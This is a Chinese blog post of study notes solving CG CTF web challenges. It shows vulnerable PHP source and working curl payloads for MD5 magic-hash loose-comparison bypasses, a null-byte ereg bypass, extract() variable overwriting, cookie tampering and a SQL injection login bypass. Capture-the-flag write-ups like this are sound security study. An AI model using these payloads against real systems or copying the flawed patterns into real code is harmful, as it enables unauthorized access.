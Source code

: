 ```yaml
---
layout: post
title:  "信息安全学习笔记 - CG CTF Web"
date:   2020-03-21 13:15:38 +0800
---
```


## 签到题

点开题目右键检查元素可以找到在a标签里面display属性为none的文本。

## [md5 collision](http://chinalover.sinaapp.com/web19/)

```php
# Source
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
    echo "nctf{*****************}";
} else {
    echo "false!!!";
}}
else{echo "please input a";}
```

```shell
echo -n QNKCDZO | md5sum
# 0e830400451993494058024219903391  -
```
巧合在于`QNKCDZO`的md5恰好是一个科学记数法表示的字符串而且值为0。使用`==`时，如果是这类字符串和一个数字比较，或者两个都是这类字符串，PHP会把这类字符串转换成浮点数。如果恰好输入参数a的md5值恰好也是一个科学记数法表示的0，那么验证的逻辑就会被绕过了。

```shell
curl http://chinalover.sinaapp.com/web19/?a=s214587387a
```

javascript里也存在类似的问题，区别在于如果两个都是字符串则不会转换

```javascript
0e111 == '0e12345'  // true
'0E111' == '0e12345' // false
```

### Notes
- `==` and float number format strings in php: [Why md5('240610708') is equal to md5('QNKCDZO')?](https://stackoverflow.com/questions/22140204)


## 签到2

需要修改输入框的maxlength。


## [单身一百年也没用](http://chinalover.sinaapp.com/web9/)

flag在响应的header里面。

## [Cookie](http://chinalover.sinaapp.com/web10/index.php)

curl的结果中有个Set-Cookie: Login=0，server也许是通过这个Login的值判断有没有登录。这里的提示是cookie和session不一致。

```shell
curl http://chinalover.sinaapp.com/web10/index.php -v -H 'Cookie: Login=1'
```
<!-- 
## [MYSQL](http://chinalover.sinaapp.com/web11/)

提示是robots.txt，所以

```shell
curl http://chinalover.sinaapp.com/web11/robots.txt
```

```php
# Source
<?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```

### Notes

- robots.txt
- `intval` in php -->

## [/x00](http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php)

```php
# Source
if (isset ($_GET['nctf'])) {
    if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
        echo '必须输入数字才行';
    else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
        die('Flag: '.$flag);
    else
        echo '骚年，继续努力吧啊~';
}
```
题目有提示`\x00`
```shell
curl http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=12222%00%23biubiubiu
```
### Notes

- `ereg`: null byte is considered as the end of string
- [percent encoding](https://stackoverflow.com/a/5007362/8706476) in urls
  - null byte "\x00": `%00`
  - pound sign "#": `%23`
  - single quote "'": `%27`
  - right parenthesis ")": `%29`

## [bypass again](http://chinalover.sinaapp.com/web17/index.php)

```php
# Sources
if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) == md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
```
前面的两个float number format string应该派上用场了。
```shell
curl 'http://chinalover.sinaapp.com/web17/index.php?a=QNKCDZO&&b=s214587387a'
```

## [变量覆盖](http://chinalover.sinaapp.com/web18/index.php)

```html
<!-- Sources -->
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
  <?php
  extract($_POST);
  if ($pass == $thepassword_123) { ?>
      <div class="alert alert-success">
          <code><?php echo $theflag; ?></code>
      </div>
  <?php } ?>
<?php } ?>
```

```shell
curl 'http://chinalover.sinaapp.com/web18/' -X POST -d 'pass=kke&thepassword_123=kke'
```

### Notes

- php `extract` imports variables into the current symbol table from an array

## [SQL注入1](http://chinalover.sinaapp.com/index.php)

不看源代码试不出来

```php
# Sources
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
```

```shell
curl http://chinalover.sinaapp.com/index.php -X POST -d 'user=admin%27%29+--+k&pass=Password'
```

### Notes

- [comments in MySQL](https://stackoverflow.com/a/14436098/8706476): `--` followed by space characters